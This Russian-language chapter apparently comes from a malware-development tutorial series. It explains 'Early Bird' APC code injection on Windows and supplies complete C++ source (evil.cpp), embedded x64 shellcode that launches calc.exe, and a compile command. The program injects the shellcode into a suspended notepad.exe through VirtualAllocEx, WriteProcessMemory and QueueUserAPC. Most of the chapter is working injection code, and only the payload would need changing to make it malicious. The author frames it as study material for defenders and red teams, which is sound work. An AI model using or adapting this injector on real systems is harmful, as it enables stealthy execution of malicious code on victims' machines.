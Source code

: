 \newpage
\subsection{13. техника APC инъекций. Простой малварь на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![APC injection](./images/21/2021-11-11_14-32.png){width="80%"}

В предыдущих разделах я писал о классическом внедрении кода и классическом внедрении DLL.     

Сегодня в этом разделе я расскажу о технике "Early Bird" APC injection. Мы рассмотрим функцию [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc), которая использует асинхронный вызов процедур для постановки задачи в очередь конкретного потока.      

Каждый поток имеет свою очередь APC. Приложение ставит APC в очередь потока, вызывая функцию `QueueUserAPC`. Вызывающий поток указывает адрес функции APC в вызове `QueueUserAPC`. Постановка APC в очередь - это запрос к потоку на вызов функции APC.    

Общий обзор техники:       
Сначала наше вредоносное ПО создаёт новый легитимный процесс (в нашем случае `notepad.exe`):       

![APC 1](./images/21/apc-1.png){width="80%"}          

![APC injection 2](./images/21/2021-11-11_15-09.png){width="80%"}    

Когда вызывается `CreateProcess`, два важных параметра, на которые нужно обратить внимание - первый (запускаемый исполняемый файл) и шестой (флаги создания процесса). Здесь используется флаг `CREATE_SUSPENDED`.        

Затем выделяется память для полезной нагрузки в адресном пространстве нового процесса:     

![APC 2](./images/21/apc-2.png){width="80%"}    

![APC injection 3](./images/21/2021-11-11_15-12.png){width="80%"}    

Как я писал ранее, есть важное различие между `VirtualAlloc` и `VirtualAllocEx`. Первая функция выделяет память в вызывающем процессе, а вторая - в удалённом процессе. Таким образом, если вредоносная программа вызывает `VirtualAllocEx`, скорее всего, начинается межпроцессное взаимодействие.  

[APC](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) рутина указывает на shellcode.    
Затем полезная нагрузка записывается в выделенную память:    

![APC 3](./images/21/apc-3.png){width="80%"}         

APC добавляется в очередь основного потока, который в данный момент находится в приостановленном состоянии:     

![APC 4](./images/21/apc-4.png){width="80%"}    

![APC injection 4](./images/21/2021-11-11_15-13.png){width="80%"}    

Наконец, поток возобновляется, и наша полезная нагрузка выполняется:    

![APC 5](./images/21/apc-5.png){width="80%"}    

![APC injection 5](./images/21/2021-11-11_15-14.png){width="80%"}    

Полный исходный код (`evil.cpp`):      

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main() {

  // Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
  WaitForSingleObject(pi.hProcess, 5000);
  hProcess = pi.hProcess;
  hThread = pi.hThread;

  // allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // write payload to allocated buffer
  WriteProcessMemory(hProcess, 
  my_payload_mem, 
  my_payload, 
  my_payload_len, NULL);

  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

  return 0;
}
```

Как вы можете видеть, для простоты мы используем 64-битный `calc.exe` в качестве полезной нагрузки. Не углубляясь в генерацию полезной нагрузки, мы просто вставим полезную нагрузку в наш код:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

Давайте скомпилируем:    
```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s \
-ffunction-sections -fdata-sections -Wno-write-strings \ 
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc
```

![APC injection 6](./images/21/2021-11-11_15-18.png){width="80%"}    

Запускаем `evil.exe` на Windows 7 x64:    

![APC injection 7](./images/21/2021-11-11_15-24.png){width="80%"}    

Если проверить только что запущенный `notepad.exe` в Process Hacker, можно убедиться, что главный поток действительно приостановлен:     

![APC injection 8](./images/21/2021-11-11_15-51.png){width="80%"}    

> Как видно, второй параметр функции `WaitForSingleObject` установлен в `30000` для демонстрации, в реальном сценарии он будет меньше.        

Наш `evil.exe` также работает на `Windows 10 x64`:     

![APC injection 9](./images/21/2021-11-11_14-29.png){width="80%"}

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WaitForSingleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)        
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)     
[ZeroMemory](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366920(v=vs.85))            
[исходный код на Github](https://github.com/cocomelonc/2021-11-11-malware-injection-3)         

В будущем я постараюсь разобраться в более сложных техниках внедрения кода.

Надеюсь, этот раздел поможет специалистам Blue Team лучше понимать данную технику, а для Red Team станет дополнительным инструментом в их арсенале.
      
